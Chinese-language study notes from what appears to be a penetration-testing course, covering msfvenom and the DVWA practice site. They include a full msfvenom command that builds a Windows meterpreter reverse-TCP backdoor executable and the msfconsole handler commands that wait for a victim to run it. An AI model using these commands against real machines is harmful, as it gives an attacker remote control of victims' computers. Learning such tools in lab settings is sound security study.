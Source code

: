 # 第四周

## msfvenom生成远程木马

msfvenom是用来生成后门的软件，在目标机上执行后门，在本地监听上线

windows可执行程序后门

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.123.136 lport=9999 -f exe -o demo.exe    

 ![image-20250412172548146](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250412172548146.png)                       

![image-20250412172645835](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250412172645835.png)

![image-20250412172707063](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250412172707063.png)

在msfconsole里开启监听，等待受害者运行上钩

use exploit/mutil/handler

set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.123.136

set lport 9999

run

## 漏洞靶场之DVWA

DVWN是OWASP官方编写的PHP网站，包含了各种常见的漏洞，可以学习攻击及修复方式

![image-20250413131443641](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250413131443641.png)



![image-20250413142515593](C:\Users\Lenove\AppData\Roaming\Typora\typora-user-images\image-20250413142515593.png)

